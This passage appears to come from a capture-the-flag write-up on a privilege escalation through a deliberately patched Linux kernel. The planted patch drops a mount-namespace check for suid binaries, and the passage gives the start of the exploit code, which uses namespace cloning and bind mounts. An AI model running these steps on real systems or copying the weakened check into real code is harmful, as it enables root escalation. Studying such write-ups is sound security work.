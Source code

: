 We should be done, right? We can mount the `build` folder in the home from a cloned process with a new mount namespace, send the mounted root to the parent process, open it from there with `open_tree` and execute the binary relative to the opened folder. This should cause the binary to be executed from its less privileged mount namespace, but make him search the libraries in the parent mount namespace, in the home directory, exactly like an hard link. Suddenly (or fortunately) Linux is not that stupid and before executing a suid binary, it checks if the user and mount namespace of the caller is the same of the executed file. But that's where the third patch comes in handy.

```diff
Subject: [PATCH] fs/namespace: Check userns instead of mntns in mnt_may_suid

If we are in the same userns, I don't see why we need to check
if we are in the same mntns too, right?

--- a/fs/namespace.c
+++ b/fs/namespace.c
@@ -4609,7 +4609,8 @@ bool mnt_may_suid(struct vfsmount *mnt)
     * suid/sgid bits, file caps, or security labels that originate
     * in other namespaces.
     */
-   return !(mnt->mnt_flags & MNT_NOSUID) && check_mnt(real_mount(mnt)) &&
+   return !(mnt->mnt_flags & MNT_NOSUID) &&
+          current_in_userns(real_mount(mnt)->mnt_ns->user_ns) &&
           current_in_userns(mnt->mnt_sb->s_user_ns);
 }
```

Even without understanding the code, we can read the commit message: we don't need to be in the same user and mount namespace of the process that mounted the file / folder, but just in the same user namespace. Ok, but to be able to perform mounts, we need to have `CAP_SYS_ADMIN`, thus be in a new user namespace. This is not a problem, because when we send the file descriptor of the mount object from a process to another, this object carry only the mount namespace information and the user namespace becomes the one of the parent.

And that's all we need.

## Exploit

First thing we have to create a child with a new mount namespace and a new user namespace in order to perform mounts.
```c
void* stack = mmap(NULL, 0x100000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS | MAP_STACK | MAP_GROWSDOWN, -1, 0);
pid_t child = clone(child_fun, stack + 0x100000 - 0x100, CLONE_NEWUSER | CLONE_NEWNS, NULL);
```

In the child function we mount the `build` directory on the home directory.
```c
mount("none", "/", NULL, MS_REC | MS_PRIVATE, NULL);
mount("/usr/lib/zapps/build", "/home/user", NULL, MS_BIND, NULL);
```
The first call is not necessary, but it is good practice to always use it when creating new mount namespace, in order to set it as slave of the parent.
